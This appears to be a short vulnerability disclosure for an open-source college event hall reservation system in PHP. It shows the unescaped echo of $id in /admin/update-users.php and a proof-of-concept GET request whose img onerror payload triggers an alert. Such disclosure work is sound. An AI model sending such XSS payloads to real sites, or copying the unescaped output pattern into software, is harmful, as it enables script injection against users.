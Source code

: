# MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS update-users.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/update-users.php

## Code
```php
<a class="btn btn-secondary"  href='rooms.php?id=<?php echo $id; ?>'>Cancel</a>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/update-users.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")> HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/0befcf4b-0226-4289-af62-d4a06370f8cb)

